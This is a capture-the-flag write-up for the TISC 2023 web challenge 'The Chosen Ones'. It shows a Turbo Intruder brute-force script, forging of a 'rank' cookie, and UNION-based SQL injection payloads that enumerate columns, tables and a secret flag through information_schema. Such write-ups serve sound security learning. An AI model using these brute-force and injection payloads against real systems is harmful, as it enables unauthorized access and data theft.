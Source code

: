 ```yaml
---
title: TISC 2023 - (Level 6b) The Chosen Ones
date: 2023-10-05 20:00:00 +0800
categories: [ctf]
tags: [web]
render_with_liquid: false
image:
    path: /assets/images/tisc2023/tisc2023.jpg
---
```

## Description

> We have discovered PALINDROME's recruitment site. Infiltrate it and see what you can find!
> 
> [http://chals.tisc23.ctf.sg:51943](http://chals.tisc23.ctf.sg:51943)

## Solution

The website is shown as below:

![](/assets/images/tisc2023/Pasted image 20231001230826.png)

After a number is submitted, it then mentions the correct lucky number.

![](/assets/images/tisc2023/Pasted image 20231001230944.png)

The first guess was that the lucky numbers may accidentally repeat themselves, hence the Turbo Intruder extension in Burp Suite is used to make multiple submissions:

![](/assets/images/tisc2023/Pasted image 20231001232454.png)

Since the number is submitted via the `entry` URL parameter, its value is set to `%s` like so in Turbo Intruder:

```
GET /index.php?entry=%s HTTP/1.1
```

Here is the Turbo Intruder script used:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=10,
                           pipeline=False
                           )

    for i in range(1, 1000000):
        engine.queue(target.req, i)
        
def handleResponse(req, interesting):
    import re
    
    if interesting:
        req.label = "Lucky number: " + re.findall(r"Too bad. The lucky number was (\d+)", req.response)[0]
        table.add(req)
```

The Turbo Intruder script is then executed and the results are shown below:

![](/assets/images/tisc2023/Pasted image 20231001232727.png)

Here, it can be observed that the guess was correct as a few numbers were seen to be repeating. Among these numbers, the lucky number `989691` is chosen and the Turbo Intruder script is updated like so:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=10,
                           pipeline=False
                           )

    for i in range(1, 1000000):
        engine.queue(target.req, 989691)
        
def handleResponse(req, interesting):
    if interesting:
        table.add(req)
```

The Turbo Intruder script is then executed and the results are shown below:

![](/assets/images/tisc2023/Pasted image 20231001233237.png)

Based on this, it can be dedeced that if the lucky number is correct, the website adds a cookie `rank=0` and redirect to `main.php`. After adding the `rank=0` to the browser like so:

![](/assets/images/tisc2023/Pasted image 20231001233000.png)

The `/main.php` page is then visited:

![](/assets/images/tisc2023/Pasted image 20231002000749.png)

The page allows for the filtering of the first name and last name of the personnel records. Testing various SQL injection payloads in these did not work as the website seems to be blocking them. 

However, it was also observed that the rank of all of these personnels returned seem to coincide with the value of the `rank` cookie in the browser. If the value of the `rank` cookie is set to 1 like so:

![](/assets/images/tisc2023/Pasted image 20231002001320.png)

The page now returns even more personnel records, some with rank 0 and rank 1. This meant the page was also filtering for records that have a `rank` less than or equals to the value of the `rank` cookie:

![](/assets/images/tisc2023/Pasted image 20231002001333.png)

SQL injection payloads were then used on the `rank` cookie and it was discovered to be injectable. The next step was figuring out the number of columns:

```
rank=-1 UNION SELECT null                -- => 500 Internal Server Error
rank=-1 UNION SELECT null,null           -- => 500 Internal Server Error
rank=-1 UNION SELECT null,null,null      -- => 500 Internal Server Error
rank=-1 UNION SELECT null,null,null,null -- => 200 OK
```

The number of columns is 4. The flag is likely stored in another table in the database, hence the next step was viewing all tables names:

```
rank=-1 UNION SELECT TABLE_NAME,null,null,null from information_schema.tables --
```

![](/assets/images/tisc2023/Pasted image 20231002001647.png)

Knowing that the table is `CTF_SECRET`, the next step was viewing all column names:

```
rank=-1 UNION SELECT COLUMN_NAME,null,null,null from information_schema.columns where TABLE_NAME = 'CTF_SECRET' --
```

![](/assets/images/tisc2023/Pasted image 20231002001837.png)

Now that the table name and column name are known, the final step would be to retrieve the flag:

```
rank=-1 UNION SELECT flag,null,null,null from CTF_SECRET --
```

![](/assets/images/tisc2023/Pasted image 20231002001923.png)

## Flag

`TISC{Y0u_4rE_7h3_CH0s3n_0nE}`
